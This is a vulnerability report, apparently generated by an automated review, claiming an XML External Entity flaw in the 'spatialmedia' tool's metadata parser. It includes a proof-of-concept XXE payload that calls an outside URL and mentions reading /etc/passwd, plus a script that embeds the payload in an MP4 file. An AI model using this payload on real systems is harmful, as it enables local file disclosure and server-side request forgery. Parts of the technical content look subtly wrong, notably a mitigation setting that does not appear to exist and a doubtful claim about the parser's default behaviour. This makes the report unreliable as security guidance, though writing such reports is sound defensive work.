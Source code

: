 - Vulnerability Name: XML External Entity (XXE) Injection
- Description: The `spatialmedia` tool is vulnerable to XML External Entity (XXE) injection. When processing media files with embedded spherical video metadata, the tool parses the XML metadata using `xml.etree.ElementTree.XML`. If a crafted media file contains a malicious XML payload with external entity definitions, the parser may attempt to resolve these external entities. This can lead to various attacks, including reading local files, denial of service, or in some cases, server-side request forgery (SSRF). An attacker can craft a malicious MP4 or MOV file containing a specially crafted XML payload in the spherical video metadata section. When a user uses the `spatialmedia` tool (either via command line or GUI) to examine or inject metadata into this malicious file, the XML parser processes the malicious payload, triggering the XXE vulnerability.
- Impact:
    - Information Disclosure: An attacker can potentially read local files on the system where the `spatialmedia` tool is executed. For example, an attacker might be able to read sensitive files such as configuration files or user data, depending on the permissions of the user running the tool.
    - Server-Side Request Forgery (SSRF): In some scenarios, if the system has network connectivity, an attacker might be able to use the vulnerable XML parser to make requests to internal or external systems, potentially leading to further attacks.
- Vulnerability Rank: High
- Currently Implemented Mitigations: None. The code uses `xml.etree.ElementTree.XML` for parsing XML metadata without any explicit mitigations against XXE vulnerabilities, such as disabling external entity loading.
- Missing Mitigations:
    - Disable external entity processing in the XML parser. When parsing XML metadata, the `xml.etree.ElementTree.XMLParser` should be configured to disallow external entity loading. This can be achieved by setting `parser.parser.feed_entity_defs = False` if using a custom parser or by using secure parsing practices for `xml.etree.ElementTree`.
    - Input sanitization and validation: While mitigating XXE directly is crucial, validating and sanitizing XML input can provide an additional layer of defense. However, for XXE, disabling external entities is the most effective mitigation.
- Preconditions:
    - The attacker needs to create a malicious media file (MP4 or MOV) with a crafted XML payload in the spherical video metadata.
    - The victim must use the `spatialmedia` tool (command-line or GUI) to process this malicious media file, for example, by examining its metadata or attempting to inject new metadata.
- Source Code Analysis:
    1. The vulnerability occurs in the `spatialmedia/metadata_utils.py` file, specifically in the `parse_spherical_xml` function.
    2. This function takes XML content as input and parses it using `xml.etree.ElementTree.XML(contents)`.
    ```python
    def parse_spherical_xml(contents, console):
        """Returns spherical metadata for a set of xml data.
        ...
        """
        try:
            parsed_xml = xml.etree.ElementTree.XML(contents) # Vulnerable line
        except xml.etree.ElementTree.ParseError:
            ...
    ```
    3. `xml.etree.ElementTree.XML` by default in Python versions before 3.7 might be vulnerable to XXE if external entities are present in the XML and not explicitly disabled. The project documentation mentions Python 2.7 compatibility, which is likely vulnerable by default.
    4. The parsed XML is then processed to extract metadata tags. If the XML contains an external entity definition, and the parser attempts to resolve it, the XXE vulnerability is triggered.
    5. There is no explicit configuration of `XMLParser` to disable external entity loading before parsing the XML content.

- Security Test Case:
    1. Prepare a malicious XML payload (e.g., `xxe_payload.xml`) that attempts to access an external URL or a local file. For example, to test for external interaction:
    ```xml
    <!DOCTYPE foo [
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "http://example.com/test_xxe" >
    ]>
    <rdf:SphericalVideo xmlns:rdf="http://www.w3.org/1999/02/22-rdf-syntax-ns#" xmlns:GSpherical="http://ns.google.com/videos/1.0/spherical/">
      <GSpherical:Spherical>&xxe;</GSpherical:Spherical>
      <GSpherical:Stitched>true</GSpherical:Stitched>
      <GSpherical:StitchingSoftware>XXE Test</GSpherical:StitchingSoftware>
      <GSpherical:ProjectionType>equirectangular</GSpherical:ProjectionType>
    </rdf:SphericalVideo>
    ```
    2. Create a dummy MP4 file (e.g., `dummy.mp4`). This can be an empty MP4 container or a simple valid MP4 file.
    3. Use a Python script (e.g., `inject_xxe.py`) to inject the malicious XML payload as spherical metadata into the dummy MP4 file.
    ```python
    import os
    from spatialmedia import metadata_utils

    # Read the malicious XML payload from file
    with open('xxe_payload.xml', 'r') as f:
        xml_content = f.read()

    # Generate metadata object
    metadata = metadata_utils.Metadata()
    metadata.video = xml_content.encode('utf-8') # Directly use the crafted XML

    # Input and output file paths
    input_file = 'dummy.mp4'
    output_file = 'xxe_injected.mp4'

    # Inject metadata
    console_output = []
    metadata_utils.inject_metadata(input_file, output_file, metadata, console_output.append)
    print("Metadata injected to {}".format(output_file))
    ```
    4. Run `inject_xxe.py` to create the malicious MP4 file `xxe_injected.mp4`. You might need to create a minimal valid `dummy.mp4` first. If you already have a valid mp4, you can use that as input.
    5. Use the `spatialmedia` command-line tool to examine the metadata of the `xxe_injected.mp4` file:
    ```bash
    python spatialmedia xxe_injected.mp4
    ```
    6. Monitor network traffic using tools like `tcpdump` or `Wireshark` to see if a request is made to `example.com` when `spatialmedia` parses the file. Alternatively, if you used a local file path in the XXE payload (e.g., `file:///etc/passwd`), check the output of the `spatialmedia` tool for any unusual output or errors that might indicate file access. If the tool attempts to access `example.com` or shows errors related to external entity resolution, it confirms the XXE vulnerability. For local file access, the tool's output might not directly reveal the file content, but parsing errors or delays could indicate an attempt to process the local file entity. To reliably detect local file reading, you might need to monitor file access attempts using system-level auditing tools, if direct output is not revealing. For the purpose of this test case, observing network traffic to `example.com` is a simpler and more direct way to confirm the vulnerability.